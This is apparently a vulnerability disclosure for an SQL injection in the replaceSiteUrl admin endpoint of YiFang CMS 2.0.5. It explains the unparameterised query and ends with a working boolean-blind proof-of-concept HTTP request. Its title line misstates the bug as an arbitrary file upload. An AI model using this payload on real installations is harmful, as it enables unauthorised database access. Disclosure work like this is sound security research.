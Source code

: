 # Vendor

YiFang

# Product

YiFang CMS

# version

 2.0.5

# Download 

https://www.yifangcms.com

# Vulnerability

Yifang latest version 2.0.5 can be uploaded at any file

# Description

The content entered by the user is not filtered, causing the user to perform SQL injection by constructing malicious commands.

# Analysis
Cause of vulnerability 

1. Directly splice user input: $dataObj->request->old_url and $dataObj->request->new_url directly embed SQL statements
2. Lack of parameterization processing: preprocessing statements or escape special characters
3. Inadequate verification: Parameter verification (validatorRequest) only checks the existence of fields, and does not filter dangerous characters

<img width="1497" height="409" alt="image" src="https://github.com/user-attachments/assets/0a23706c-076d-476e-ab8d-bd48ab53ab2e" />

Use boolean blind to prove the vulnerability: 

Test found that the first digit of user() is r
<img width="1030" height="396" alt="image" src="https://github.com/user-attachments/assets/ce0199ba-ba2c-44fd-a583-eb056c3f26fd" />

<img width="1027" height="425" alt="image" src="https://github.com/user-attachments/assets/bf22cc3d-2a62-46ed-8ef4-9a3a9e20cb40" />


# POC
```
POST /admin/tool/replaceSiteUrl HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0
Cookie: cms_session=grq61ku3fmt3v3ll42dg028i66
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

old_url=http://localhost&new_url='%2b(SELECT+IF(SUBSTRING(USER(),1,1)='r','b',0x00))%2b'&
```
